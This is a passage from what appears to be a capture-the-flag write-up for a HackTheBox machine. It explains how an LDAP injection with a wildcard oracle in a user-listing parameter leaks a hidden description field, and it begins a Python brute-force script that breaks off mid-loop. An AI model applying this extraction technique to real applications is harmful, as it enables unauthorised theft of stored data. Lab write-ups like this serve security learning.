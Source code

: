 ![Technician found](/assets/img/Analysis/Analysis_08.png)

playing around with the paramter i was able to get a few other users leaked out of here. The fact the wildcard worked made me think this might be an Ldap injection. To test this out i tried to see if we make an and condition with both the name and description. If we made the description empty we would get a negative reply as expected however if we added a * we would get a positive one. This would make it possible to extract the value hidden in the description.

So whenever we supplied a wrong description query we'd get a reply containing **CONTACT_**

![Failed case](/assets/img/Analysis/Analysis_09.png)

When we supply it with a valid query we would get word record for the technician again.

![Positive case](/assets/img/Analysis/Analysis_10.png)

So knowing this it was scripting time. lets script a description bruteforcer using the ldap injection. The following script will automatically extract whatever is in the description.

```python
#!/usr/bin/python3
import requests
from bs4 import BeautifulSoup
import string
import urllib.parse

pwd = ""
proxies = {
   'http': 'http://127.0.0.1:8080',
   'https': 'http://127.0.0.1:8080',
}
charset=string.printable.strip().replace('*','')
pwd=""

while True:

    for char in charset:
        nothingfound=True
        char = char.strip()
        url = "http://internal.analysis.htb/users/list.php"

```